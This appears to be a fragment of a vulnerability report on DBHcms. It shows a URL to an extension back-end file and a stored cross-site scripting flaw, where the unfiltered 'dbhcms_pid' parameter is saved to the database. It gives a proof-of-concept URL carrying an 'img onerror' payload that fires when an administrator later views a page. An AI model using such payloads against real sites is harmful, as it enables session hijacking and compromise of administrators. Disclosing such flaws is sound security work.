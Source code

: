 
just visit `http://localhost:8089/dbhcms/ext/news/ext.news.be.php`

![](images/2019-07-25-14-30-56.png)

## [3]

there has no security filter of $_GET['dbhcms_pid'] variable in dbhcms\page.php line 107.

![](images/2019-07-25-14-46-45.png)

in dbhcms\func.php line 182 dbhcms_pid will stored in database and no security filter before.

![](images/2019-07-25-14-51-21.png)

visit `http://localhost:8089/?dbhcms_params=2&dbhcms_pid=2222<img/src/onerror=alert(1)>` 

![](images/2019-07-25-14-56-57.png)

then, when authenticated admin user access to `http://localhost:8089/index.php?dbhcms_pid=-110`

![](images/2019-07-25-14-57-33.png)
